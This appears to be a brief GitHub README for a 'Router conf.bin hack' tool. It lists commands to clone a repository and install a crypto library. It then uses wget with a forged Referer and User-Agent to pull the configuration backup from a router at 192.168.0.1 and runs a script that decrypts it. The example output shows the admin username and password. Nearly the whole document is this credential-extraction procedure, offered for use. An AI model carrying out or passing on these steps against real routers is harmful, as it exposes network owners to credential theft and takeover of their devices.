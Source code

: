 ```yaml
---
# Router conf.bin hack
---
```


``` apt update && apt upgrade ```

``` git clone https://github.com/princeicon2712/conf.rejaul.git ```

``` cd conf.rejaul ```

``` pip install pycryptodome ```
## Conf.bin file Downlod Now:

``` wget -d --header="User-Agent: Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.97 Safari/537.11" --header="Referer: http://192.168.0.1/mainFrame.htm" --header="Accept-Encoding: compress, gzip" http://192.168.0.1/cgi/conf.bin ```
## conberd conf.bin from conf.xml:

``` python rejaul.py conf.bin conf.xml ```

## conf.xml see Example:

``` <AdminName val=Alexis /> ```
``` <AdminPwd val= password /> ```
---
## developer profile by Rejaul Korim :
---
<img src="rejaul.jpg" width="500"/>
